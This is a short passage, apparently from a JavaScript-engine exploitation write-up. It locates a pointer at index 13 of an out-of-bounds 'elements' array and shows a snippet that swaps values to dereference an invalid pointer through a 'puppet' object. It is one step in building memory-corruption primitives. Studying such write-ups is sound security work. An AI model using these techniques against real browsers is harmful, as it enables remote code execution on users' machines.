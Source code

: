 A diagram always helps here, summarising everything we've done so far:

![schematic](images/8/schematic.drawio.svg)

By counting, our pointer is located at index 13 of the OOB `elements` array.

```js
  // ...
  target[0] = itof(0xdeadbeefn); // some dummy value
  target.from = 0;
  target.to = 13;
  target.swap();
  puppet[0]; // attempt to dereference an invalid pointer
  // ...
```
